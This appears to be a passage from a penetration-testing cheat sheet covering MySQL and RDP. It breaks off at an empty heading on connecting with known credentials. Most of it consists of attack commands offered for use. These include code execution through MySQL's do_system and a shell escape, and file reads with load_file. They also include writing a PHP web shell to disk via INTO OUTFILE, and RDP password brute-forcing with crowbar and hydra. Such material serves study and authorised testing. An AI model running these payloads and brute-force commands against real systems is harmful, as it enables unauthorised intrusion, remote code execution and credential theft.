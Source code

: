 ### Connect

```
# Local
mysql -u <USER>
mysql -u <USER> -p

# Remote
mysql -h <IP> -u <USER>
```

### MySQL commands

```
show databases;
use <DATABASES>;

show tables;
describe <TABLE>;

select * from <TABLE>;

# Try to execute code
select do_system('id');
\! sh

# Read & Write
select load_file('<FILE>');
select 1,2,"<?php echo shell_exec($_GET['c']);?>",4 into OUTFILE '<OUT_FILE>'
```

### Manual exploit

```
Cheatsheet :
	- https://www.asafety.fr/mysql-injection-cheat-sheet/
```

------

## RDP - 3389

### Brute force

```
crowbar -b rdp -s <IP>/CIDR -u <USER> -C <PASSWORDS_LIST>
crowbar -b rdp -s <IP>/CIDR -U <USERS_LIST> -C <PASSWORDS_LIST>

hydra -f -L <USERS_LIST> -P <PASSWORDS_LIST> rdp://<IP> -u -vV
```

### Connect with known credentials / hash

